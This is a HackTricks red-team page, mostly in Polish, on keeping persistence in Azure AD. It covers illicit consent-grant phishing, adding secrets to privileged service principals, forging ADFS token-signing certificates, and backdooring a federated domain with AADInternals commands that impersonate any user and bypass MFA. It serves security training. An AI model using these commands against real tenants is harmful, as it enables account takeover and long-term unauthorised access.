 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

Domyślnie każdy użytkownik może zarejestrować aplikację w Azure AD. Możesz więc zarejestrować aplikację (tylko dla docelowego dzierżawcy), która potrzebuje uprawnień o wysokim wpływie z zgodą administratora (zatwierdź to, jeśli jesteś administratorem) - takich jak wysyłanie maili w imieniu użytkownika, zarządzanie rolami itp. To pozwoli nam na **wykonywanie ataków phishingowych**, które byłyby bardzo **owocne** w przypadku sukcesu.

Co więcej, możesz również zaakceptować tę aplikację jako użytkownik, aby utrzymać nad nią dostęp.

### Applications and Service Principals

Z uprawnieniami Administratora Aplikacji, GA lub niestandardowej roli z uprawnieniami microsoft.directory/applications/credentials/update, możemy dodać poświadczenia (sekret lub certyfikat) do istniejącej aplikacji.

Możliwe jest **celowanie w aplikację z wysokimi uprawnieniami** lub **dodanie nowej aplikacji** z wysokimi uprawnieniami.

Interesującą rolą do dodania do aplikacji byłaby **rola administratora uwierzytelniania uprzywilejowanego**, ponieważ pozwala na **resetowanie hasła** Globalnych Administratorów.

Ta technika również pozwala na **obejście MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Dla uwierzytelniania opartego na certyfikatach

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federacja - Certyfikat Podpisywania Tokenów

Z **uprawnieniami DA** w lokalnym AD, możliwe jest stworzenie i zaimportowanie **nowych certyfikatów podpisywania tokenów** oraz **certyfikatów deszyfrujących tokeny**, które mają bardzo długi okres ważności. Pozwoli nam to na **logowanie się jako dowolny użytkownik**, którego ImuutableID znamy.

**Uruchom** poniższe polecenie jako **DA na serwerze ADFS** w celu stworzenia nowych certyfikatów (domyślne hasło 'AADInternals'), dodania ich do ADFS, wyłączenia automatycznego obracania i ponownego uruchomienia usługi:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Następnie zaktualizuj informacje o certyfikacie w Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Zaufana domena

With GA privileges on a tenant, it's possible to **add a new domain** (must be verified), configure its authentication type to Federated and configure the domain to **trust a specific certificate** (any.sts in the below command) and issuer:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Odniesienia

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
